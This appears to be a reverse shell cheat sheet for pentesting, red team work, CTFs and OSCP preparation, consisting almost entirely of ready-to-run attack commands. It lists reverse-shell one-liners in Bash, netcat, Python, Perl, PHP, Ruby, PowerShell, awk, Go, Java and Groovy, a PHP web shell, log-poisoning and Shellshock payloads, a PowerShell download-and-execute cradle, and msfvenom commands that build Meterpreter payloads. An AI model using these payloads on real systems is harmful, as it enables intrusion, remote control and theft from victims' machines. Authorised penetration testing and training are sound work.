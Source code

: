 # `Reverse Shell (Cheat Sheet)`

__Pentesting - Red Team - CTFs - OSCP__

---
`Bash`

  ```cmd
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1

  bash -c "bash -i >& /dev/tcp/192.168.1.2/443 0>&1"
  
  bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22
  ```
  ---
`Netcat`

  ```cmd
  nc -e /bin/sh 192.168.1.2 443

  nc -e /bin/bash 192.168.1.2 443

  nc -c bash 192.168.1.2 443
  
  nc.exe -e cmd 192.168.1.26 443

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f
  
  rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.1.2%20443%20%3E%2Ftmp%2Ff
  ```
  
`PHP Web Shell`

  ```php
  <?php system($_GET['cmd']); ?>
  ```
  
`Web Shell (SSH Log Poisoning) -> /var/log/auth.log`

  ```php
  ssh '<?php system($_GET['cmd']); ?>'@192.168.1.2
  ```

`Web Shell (HTTP User-Agent Log Poisoning) -> /var/log/apache2/access.log`

  ```cmd
  curl -s -H "User-Agent: <?php system(\$_GET['cmd']); ?>" "http://192.168.1.2/browse.php?file=../../../../../var/log/apache2/access.log"
  ```
  
  ```cmd
  User-Agent: <?php system($_GET['cmd']); ?>
  ```
`Shellshock`

  ```cmd
  curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  ```
  
  `Shellshock (Internal Server Error)`

  ```cmd
  curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  
  curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  ```
  
`Perl`

  ```cmd
  perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

`Python`

  ```cmd
   export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  ```

`PHP`
  ```php
  php -r '$sock=fsockopen("192.168.1.2",443);`/bin/sh -i <&3 >&3 2>&3`;'
  
  php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);system("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);passthru("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
  ```
  
`Ruby`

  ```cmd
  ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

  ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  ```
  
`Xterm`

   ```cmd
   xterm -display 192.168.1.2:443
   ```
   
`Ncat`

  ```cmd
  ncat 192.168.1.2 443 -e /bin/bash
  ```

`Powershell`

  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  
  powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.2:8000/reverse.ps1')
  ```

`Awk`

  ```cmd
  awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```
 `Gawk`
 
 ```cmd
 gawk 'BEGIN {P=443;S="> ";H="192.168.1.2";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
 ```
 `Golang`

  ```cmd
  echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.1.2:443");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
  ```
   `Telnet`

  ```cmd
  rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.2 443 0/tmp/p
  ```
  ```
  telnet 192.168.1.2 80 | /bin/bash | telnet 192.168.1.2 443
  ```
  
  `Java`

  ```cmd
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.2/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  ```
  `Node.js`
  
  ```cmd
  require('child_process').exec('bash -i >& /dev/tcp/192.168.1.2/443 0>&1');
  ```
  
`Groovy (Jenkins)`

  ```cmd
  String host="192.168.1.2";
  int port=443;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
  ```


`Msfvenom`

`Php`

```cmd
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php
```

```cmd
msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php
```

`War`

```cmd
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
```

`JSP`

```cmd
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.jsp
```

`Aspx`

```cmd
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f aspx -o reverse.aspx
```

`Windows`

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
 ```
 
`x64`

```cmd
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`x64`

```cmd
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Shell (Netcat Listener) [Stageless]`

`x86`

```cmd
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```
`x64`

```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Linux`

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`x64`

```cmd
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`x64`

```cmd
msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`Shell (Netcat Listener) [Stageless]`

`x86`

```cmd
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```
`x64`

```cmd
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elF
```
